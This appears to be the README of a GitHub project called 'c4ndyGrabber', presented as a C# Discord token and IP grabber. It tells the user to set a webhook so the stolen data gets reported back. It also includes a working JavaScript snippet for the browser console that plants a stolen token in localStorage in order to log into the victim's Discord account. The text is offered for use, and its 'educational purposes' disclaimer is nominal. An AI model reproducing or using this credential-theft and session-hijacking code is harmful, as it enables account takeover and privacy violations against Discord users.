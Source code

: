 # c4ndyGrabber
C# Discord Token and IP grabber

Remember to change `webhook` otherwise the report wont be able to come.

### Login with token JS function

```
function login(token) { setInterval(() => { document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"` }, 50); setTimeout(() => { location.reload(); }, 2500); }

login("token")
```

> Paste it into console at login discord page

*Made only for educational purposes*
